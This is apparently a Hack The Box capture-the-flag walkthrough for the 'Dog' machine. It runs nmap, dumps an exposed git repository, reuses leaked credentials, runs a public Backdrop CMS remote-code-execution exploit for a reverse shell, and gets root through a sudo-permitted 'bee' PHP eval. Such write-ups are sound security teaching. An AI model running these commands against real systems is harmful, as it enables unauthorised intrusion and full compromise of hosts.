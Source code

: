 ![](images/image0.png)

# Dog HTB Walkthrough

---

## Nmap Scan

```bash
nmap -p- -Pn 10.129.58.251 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.58.251 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.58.251 -v --script vuln -oN nmap_vuln.txt
```

![](images/image3.png)

---

## Web Enumeration

When looking at the website at port 80 we see the CMS running it:

![](images/image5.png)

Note we also found a git repository so let's check it.

![](images/image7.png)

---

## Git Repository Extraction

```bash
git-dumper http://10.129.58.251 .git
```

![](images/image1.png)

We then checked out the `settings.php` and found database credentials:

![](images/image6.png)

We also find a username at:

```
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active
```

![](images/image13.png)

Using the found credentials we successfully logged in as **tiffany**:

![](images/image12.png)
![](images/image4.png)

---

## Exploitation - Backdrop CMS RCE

Found this exploit online:  
🔗 [https://github.com/rvizx/backdrop-rce/](https://github.com/rvizx/backdrop-rce/)

Using this we gained a reverse shell:

```bash
python3 exploit.py http://10.129.58.251 tiffany@dog.htb BackDropJ2024DS2024
```

![](images/image15.png)

---

## Shell Stabilization

Then we upgraded the shell:

![](images/image8.png)

---

## Privilege Escalation - Password Reuse

Then I tried to password spray and it worked:

![](images/image9.png)

User flag is on the desktop.

---

## Sudo Privilege Escalation

We see that `sudo -l` gives us that we can run the **bee** command as sudo.

![](images/image14.png)

With `bee -h` we see what it does, and it can run arbitrary PHP code:

![](images/image10.png)
![](images/image2.png)

Note: we also need to set the root directory, so let’s craft our exploit:

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash -p');"
```

![](images/image11.png)

It worked — we are **root**!  
Root flag is at `/root/root.txt`.

---
